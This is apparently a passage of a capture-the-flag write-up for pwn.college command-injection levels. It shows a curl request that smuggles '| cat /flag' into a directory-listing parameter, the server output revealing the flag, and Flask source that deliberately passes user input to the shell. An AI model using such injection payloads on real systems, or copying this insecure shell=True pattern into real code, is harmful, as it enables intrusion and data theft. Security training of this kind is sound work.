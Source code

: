 In order to get around this we can use a PIPE (`|`) operator. It causes the output of the first command to be sent to the second as input.

```
## Request:
curl "challenge.localhost:80/event?destination=/ | cat /flag"

## Resultant command:
ls -l / | cat /flag
```

```
hacker@web-security~cmdi-2:/$ curl "challenge.localhost:80/event?destination=/%20|%20cat%20/flag"

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/event"><input type=text name=destination><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l / | cat /flag:</b><br>
        <pre>pwn.college{obrVvG7pT1vGdbdi4WO7kgKhwY2.dRjN1YDL4ITM0EzW}
</pre>
        </body></html>
```

&nbsp;

## CMDi 3

### Source code
```py title="/challenge/server" showLineNumbers
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)


@app.route("/quest", methods=["GET"])
def challenge():
    arg = flask.request.args.get("path", "/challenge")
    command = f"ls -l '{arg}'"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/quest"><input type=text name=path><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


```